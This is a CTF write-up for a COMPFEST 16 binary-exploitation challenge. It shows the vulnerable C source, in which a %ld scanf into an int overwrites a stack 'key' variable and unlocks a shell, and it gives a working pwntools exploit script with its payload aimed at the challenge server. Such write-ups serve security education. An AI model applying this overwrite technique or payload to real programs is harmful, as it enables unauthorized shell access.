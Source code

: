 ```yaml
---
title: 'BABY COMPFEST HACKER CLASS WRITEUP'

---
```



# COMPFEST CTF HACKER CLASS WRITEUP

:::info
:bulb: This write-up is written by Abyan Hafiizh. 
:::

## Table of Contents

[TOC]

## Baby COMPFEST Hope Survey

### Source Code
In this challenge, we are provided with the source code and binary file to exploit.

```c
#include <stdio.h>
#include <stdlib.h>

#define BUF_SIZE 0x100

__attribute__((constructor)) _()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    puts("Selamat datang para peserta CTF COMPFEST 16!");
    puts("Sebelum tahap penyisihan, kami ingin mengetahui harapan Anda sebagai peserta kami.");
    puts("Silakan isi form berikut dengan harapan Anda. Terima kasih!");
}

void read_val(const char *msg, void *ptr)
{
    printf("%s", msg);
    scanf("%ld", ptr);
}

void read_buf(const char *msg, char *buf, int length)
{
    printf("%s", msg);
    read(0, buf, BUF_SIZE);
}

int main()
{
    puts("\n===== Form Harapan Peserta CTF COMPFEST 16 =====");

    int key = 0;
    int length;
    read_val("Panjang harapan (biar efisien harap maklum): ", &length);
    if (length < 0 || length >= BUF_SIZE)
    {
        printf("Hayo jangan nackal ya dek...\n");
        return -1;
    }

    if (key == 0xDEADBEEF)
    {
        puts("\nEmang boleh se-hengker ini...");
        system("/bin/sh");
        return 69;
    }

    puts("Mohon maaf saat ini form sedang dalam perbaikan. Silakan coba chall sebelah dulu hehe.");
}
```

In the code above, we can see several functions that can potentially be exploited, such as `read_buf()`, although it is not called within the `main` function.

Next, we look at the `read_val()` function, where we see that our input is read using the format specifier `%ld` for a long integer. Negative values in long integers are represented in two's complement form. 

When this value is then cast or interpreted as an integer, only the lower 32 bits are used. This type confusion can be exploited to perform an integer overflow and change `key` to `0xDEADBEEF`.

### Exploitation

---

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/craft_payload_babby.png?raw=true)

---

By exploiting the type confusion, we can insert `DEADBEEF` in the first 8 bits and zeroes in the next 8 bits. This payload will cause an overflow and change the value of `key` from 0 to `DEADBEEF`.

---

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/effidence%201.png?raw=true)

---

As shown in the image above, the value of `key` (rbp-4) has been changed to `deadbeef`, and we can obtain a shell.

### Exploit with Python Script (pwn)
```python
from pwn import *

# Specify the remote server address and port
remote_address = 'challenges.ctf.compfest.id'
remote_port = 20005

# The value that will overwrite the key to 0xDEADBEEF
payload = '-2401053092612145152'

# Connect to the remote server
io = remote(remote_address, remote_port)

# Send the payload to the program
io.sendline(payload)

# Interact with the obtained shell
io.interactive()
```
---

![](https://github.com/byf1sh/CTF-WriteUps/blob/main/Compfest%20-%20Writeup/Assets/evidence%202.png?raw=true)

---

Thank you.
